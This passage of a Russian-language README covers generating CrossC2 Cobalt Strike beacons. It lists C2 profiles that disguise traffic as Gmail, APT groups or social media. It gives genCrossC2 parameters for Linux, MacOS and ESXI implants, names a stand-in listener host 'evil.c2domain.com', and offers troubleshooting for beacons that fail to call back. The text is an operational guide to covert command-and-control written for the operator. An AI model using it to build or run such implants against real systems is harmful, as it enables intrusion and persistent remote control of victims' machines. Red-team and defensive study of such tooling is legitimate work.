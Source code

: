 ## 🎭 C2 Profiles

Используй готовые профили из папки `profiles/`:
- **Gmail profile** - Мимикрия под Gmail трафик
- **APT profiles** - Имитация реальных группировок
- **Social media profiles** - Маскировка под соцсети

## ⚠️ Параметры genCrossC2

```
Синтаксис:
./genCrossC2.Linux [host] [port] [beacon_keys] [rebind_lib] [platform] [arch] [output] [upx] [cs_version]

Параметры:
-host         : IP/домен твоего listener'а (192.168.1.100 / evil.c2domain.com)
-port         : Порт listener'а (4444, 443, 80, etc.)
-beacon_keys  : Путь к .cobaltstrike.beacon_keys или 'null'
-rebind_lib   : Кастомный rebind lib или 'null'
-platform     : Linux | MacOS | ESXI | Linux-bind | MacOS-bind | Linux-lib | MacOS-lib
-arch         : x86 | x64 | M1
-output       : Имя выходного файла
-upx          : upx | raw (сжатие)
-cs_version   : 4.1-4.9 | 4.4-src
```

## 🔧 Troubleshooting

### Beacon не подключается?
```bash
# Проверь listener'ы:
ss -tuln | grep [PORT]

# Проверь firewall:
sudo ufw status

# Проверь процесс beacon'а:
ps aux | grep beacon
lsof -p [PID]
```

### Ошибка при генерации?
```bash
# Убедись что .gen.jar есть в директории:
cp /path/to/cobaltstrike-client.jar ./.gen.jar

# Проверь права на beacon keys:
chmod 644 .cobaltstrike.beacon_keys
```

## 🛡️ Opsec заметки
